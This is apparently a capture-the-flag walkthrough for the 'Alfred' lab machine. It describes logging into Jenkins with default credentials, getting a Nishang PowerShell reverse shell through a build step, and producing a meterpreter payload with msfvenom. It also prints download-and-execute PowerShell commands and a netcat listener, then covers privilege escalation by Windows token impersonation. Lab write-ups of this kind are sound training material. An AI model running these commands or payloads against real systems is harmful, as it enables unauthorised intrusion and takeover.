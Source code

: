 # Alfred (Jenkins and Nishang)

So first we can the machine and we see 3 ports open namely 80,8080,3389 so by just going to the pages we find out that the page 80 is the main website and its CI/CD is being handeled by Jenkins which is on port 8080 and if we traverse over there we get a login page .

We can try to first password spray admin on this page and try some default credentials if that doesnt work we can try to brute force but luckily for us my first guess which was admin:admin worked for us so now that we are logged in we see the dashboard which has a project in it which is most probably the site that is on port 80 now to locate the place where we can execute commands lets go to the project thats shown to us on the dashboard and then try to look inside the options there if we find something usefull around or something .After looking around for a while i found out that we can go to configure and scroll down and see the build coloumn where we can put the commands and stuff to execute on the machine and get a reverse [shell.In](http://shell.In) here they recomend for us to use the reverse shell from the repo nishang the link to that is here →

[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Also has a lot of other cool tools → [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

So now to get this revershell script to the machine then execute it first we need to download the Invoke-Powershelltcp.ps1 script on our local machine and then host it with 

```bash
python -m SimpleHTTPServer 80 
```

and then we can get it by the command they provided which is this one here this will get the file from our local server and then also call it for us 

```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

now lets click on appply on the bottom left of our screen and then lets start to listen for the reverse shell and we do that using netcat so the syntax would be 

```bash
nc -nvlp <PortDefinedintheabovescript>
```

and then in the jenkins menu we click build now and we will get a reverse shell on our nc listener and we can use that .Now you can cat out the users and everything .

Now to get a metasploit shell all we gotta do is use exploit/multi/handeler to listen instead of nc and send a payload that will allow us to get a meterpreter shell.

To do that we first generate the payload by doing this →

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

and then lets upload this shell to the target machine on the netcat shell.

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

and now we set  payload windows/meterpreter/reverse_tcp and also set lhost and lport.

and then run the exploit and lets listen for the shell on metasploit and now to execute the shell on the nc listener we use powershell and run the command 

```bash
Start-Process "shell-name.exe"
```

Now that we have our meterpreter session we can do windows token impersanation to gain administrator privellages and gain NT/AUTHOITY-SYSTEM.

So first lets see what does tokens are  :

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

- user SIDs(security identifier)
- group SIDs
- privileges

There are two types of access tokens:

- primary access tokens: those associated with a user account that are generated on log on
- impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load_incognito to load the incognito module in metasploit.

To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token.

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS and then we can get authority.